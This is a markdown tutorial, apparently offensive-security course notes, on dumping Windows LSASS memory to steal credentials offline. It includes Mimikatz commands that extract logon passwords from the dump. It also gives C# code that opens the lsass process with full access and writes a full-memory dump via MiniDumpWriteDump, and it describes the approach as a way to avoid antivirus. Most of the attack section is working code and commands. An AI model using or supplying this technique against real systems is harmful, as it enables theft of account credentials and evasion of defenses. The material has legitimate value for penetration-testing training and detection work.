

## Processing Credentials Offline
We can dump the required memory section from the target's LSASS and upload it to a different Windows machine, where we can safely extract the credentials.
This can be done to not target any antivirus.

we'll dump the process memory of LSASS. Windows allows us to create a [_dump file_](https://docs.microsoft.com/en-us/visualstudio/debugger/using-dump-files?view=vs-2019), which is a snapshot of a given process and contains loaded libraries and application memory.

We can use Task manager to dump the the lsass memory, and it gives us a path.



Once the dump file is created, we can copy it from the target to our local Windows client where we can parse it with Mimikatz.
The architecture of the windows machine needs to be the same.

With the file exported to our attacker machine, we can use mimikatz with the following commands:
```cmd
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

## Disadvantage and Solution
Even though we can now dump the creds, we are at a disadvantage as we need a GUI to use Task Manager and cannot use the command line.

We start by building are own code to dump the file.

We'll use [_MiniDumpWriteDump_](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) API to for our application.
The API takes the following arguments:
1. hProcess - handle to LSASS process
2. ProcessId - Process ID of LSASS
3. hFile - Handle to the file to containt the dump
4. DumpType - Enum Type(set to "MiniDumpWithFullMemory" or "2") 

There are more parameters, however, we only need these 4.

Importing the API:
```C#
[DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, 
          IntPtr hFile, int DumpType, IntPtr ExceptionParam, 
          IntPtr UserStreamParam, IntPtr CallbackParam);
```

Before Invoking the API, we'll need the ID for the lsass process, we'll get this using _GetProcessByName_ method of the Process class:
We get the handle for lsass process with _OpenProcess_ as in ([3. First Process Injection](../../03.%20Process%20Injection%20and%20Migration/01.%20Csharp%20injection/3.%20First%20Process%20Injection.md))

Importing OpenProcess:
```C#
[DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, 
          int processId);
```

Invoking it:
```C#
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;

IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
```

We'll use the _FileStream_ class along with it's constructor to create a new dumpfile.

To instantiate the _FileStream_ object, we must supply two arguments:
1. Name and path - name and path of the file we want to create (lsass.dmp in windows/tasks dir)
2. Mode - FileMode.Create in our case

Code will be as follows:
```C#
FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
```

We can now finally invoke _MiniDumpWriteFile_:
```C#
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```
( we must convert it to a C-style file handle through the [_DangerousGetHandle_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.safehandle.dangerousgethandle?view=netframework-4.8) method of the [_SafeHandle_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.safehandle?view=netframework-4.8) class)

